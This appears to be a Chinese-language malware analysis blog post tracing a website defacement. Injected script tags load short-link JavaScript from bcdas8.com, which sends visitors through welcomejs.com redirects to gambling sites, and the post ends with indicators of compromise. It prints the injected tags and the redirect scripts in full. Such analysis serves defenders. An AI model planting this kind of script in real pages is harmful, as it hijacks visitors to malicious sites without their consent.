





在此样本中，我们发现该篡改通过在业务页面插入外链的短连接中转JS脚本，通过多级跳转，最终将用户重定向到BoCai网。 


<!--more-->

#### 业务页面
```html
......
<script language="javascript" src="http://t.cn/RBAcEC8"></script> 
<script language="javascript" src="http://t.cn/RBASXKi"></script>
......
```
观察发现两个短地址：
``http://t.cn/RBAcEC8``
``http://t.cn/RBASXKi``
#### 分析短地址：
``https://www.bcdas8.com/dq.js``
``https://www.bcdas8.com/js301.js``

其中``https://www.bcdas8.com/dq.js ``判断并回显访问者IP，可被用于记录。


#### 跳转开始：

而另外一个外部JS为多级跳转的开始：
``https://www.bcdas8.com/js301.js``


```javascript
(function () {
    /*百度推送代码*/
     var bp = document.createElement('script');
     bp.src = '//push.zhanzhang.baidu.com/push.js';
     var s = document.getElementsByTagName("script")[0];
     s.parentNode.insertBefore(bp, s);
     /*360推送代码*/
     var src = document.location.protocol + '//js.passport.qihucdn.com/11.0.1.js?8113138f123429f4e46184e7146e43d9';
     document.write('<script src="' + src + '" id="sozz"><\/script>');
     })();

var siteAry = new Array();
siteAry[0] = "https://welcomejs.com/?88";
siteAry[1] = "https://welcomejs.com/?88";
siteAry[2] = "https://welcomejs.com/?88";
siteAry[3] = "https://welcomejs.com/?88";
var _length = siteAry.length;
var myDate = new Date();
var _se = myDate.getSeconds();
var _index = _se%_length;
window.location= siteAry[_index];
```
#### 跳转：
分析可知，除了正常的执行百度和360网站统计之外，插入了另外一处跳转：
``https://welcomejs.com/?88``


```javascript
<meta http-equiv="Content-Language" content="zh-CN">
<meta HTTP-EQUIV="Content-Type" CONTENT="text/html; charset=gb2312">
<meta http-equiv="refresh" content="0.1;url=/zh-cn">
```
#### 再次跳转：
``https://welcomejs.com/zh-cn``


```javascript
<!DOCTYPE html>
<html>
<head>
<meta charset="gb2312">
<meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1">
<title>正在进入</title>
<meta name="description" content="正在进入">
<meta name="keywords" content="正在进入">
<link href="" rel="stylesheet">

<script language="javascript">
times=1
setInterval("times++",100)
b=1
var autourl=new Array() // 检测的站点
autourl[1]="https://js29042.com/?aff=999313"
autourl[2]="https://js29033.com/?aff=999313"
autourl[3]="https://js29030.com/?aff=999313"
autourl[4]="https://js29033.com/?aff=999313"
autourl[5]="https://js29042.com/?aff=999313"
autourl[6]="https://js29030.com/?aff=999313"
autourl[7]="https://js29042.com/?aff=999313"

// 判断第一个反应的网站并进行跳转
function auto(url){
	window.location.replace(url);
	b++
}

// 进行故意错误请求并得到反应速度
function run(){
	for(var i=1;i<autourl.length;i++)
	document.write("")
}
run()
</script>

</head>
<body>
    <!-- <a href="" target="_blank" onclick="run()"></a> -->
</body>
</html>
```
分析可知，篡改作者设置了可用性检测，对一批BoCai网轮询，并跳转第一个可访问的BoCai站点。
#### 最后的BoCai网站
最终使用户跳转到BoCai网站。
``https://js29042.com/?aff=999313``


测试发现aff参数为推广码，该推广码可用于定位页面篡改作者。




#### IOCS
bcdas8.com
js29033.com
js29030.com
js29042.com
welcomejs.com


